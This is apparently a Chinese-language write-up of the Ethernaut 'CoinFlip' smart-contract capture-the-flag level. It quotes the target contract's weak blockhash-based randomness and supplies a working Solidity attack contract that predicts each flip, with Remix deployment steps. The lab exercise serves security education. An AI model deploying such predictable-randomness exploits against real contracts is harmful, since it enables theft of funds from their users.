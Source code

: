 3_CoinFlip
=
本关要求
--

  1.This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.  

合约代码
--
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract CoinFlip {

      using SafeMath for uint256;
      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

      constructor() public {
        consecutiveWins = 0;
      }

      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }  
分析
--
本关要求我们预测对10次硬币的正反  

查看<code>flip</code>方法可知，<code>coinFlip</code>的值决定硬币正反，<code>coinFlip</code>的值通过<code>blockValue.div(FACTOR)</code>计算得到  

<code>blockValue</code>的值为进行预测时当前区块的<code>blockhash</code>  

因为<code>FACTOR</code>的值为常量，所以如果能提前预知<code>blockValue</code>的值，就能预测硬币的正反  

因为有<code>if (lastHash == blockValue)</code>的判断，同一个区块的合约只能提交一次。所以我们采用合约调用的方法，先在我们编写的合约内计算硬币的正反，再调用本关合约，提交预测的结果  

编写攻击合约代码  
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";


    // 被调用合约接口
    interface CoinFlipInterface {
        function flip(bool _guess) external returns (bool);
    }

    // 攻击合约
    contract CoinFlipAttack{

        using SafeMath for uint256;
        address private addr;
        CoinFlipInterface cf_interface;

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor(address _addr) public {
            addr = _addr;
            //cf_ins = CoinFlip(_addr);
            cf_interface = CoinFlipInterface(_addr);
        }

    // 使用本关合约相同代码计算硬币正反
        function getSide() private view returns  (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

    // 调用接口实例
        function attack() public {
            bool side = getSide();
            cf_interface.flip(side);
        }

    }
部署本关合约，并查看合约地址  

![图片](https://user-images.githubusercontent.com/35074461/196595386-591c69c0-b59c-459e-b930-5688b0808c10.png)  
  
编译攻击合约，设置Remix部署环境为Injected Provider，连接Metamask。设置部署地址为0x1474ADE39c052Ffb14aA38726c63Fd8972FFb044  
  
![图片](https://user-images.githubusercontent.com/35074461/196595791-c42836e4-471b-402c-8b22-9ac9d129a8be.png)  

点击attack进行合约攻击，查看预测结果，发现攻击成功  
  
![图片](https://user-images.githubusercontent.com/35074461/196593086-7c9df5e9-68d1-4506-bbf0-8f0bca4cb16b.png)  
继续提交直至成功10次，完成本关  
  
![图片](https://user-images.githubusercontent.com/35074461/196594859-f4bf89a1-d10e-4ddb-a385-5b65c870b061.png)  
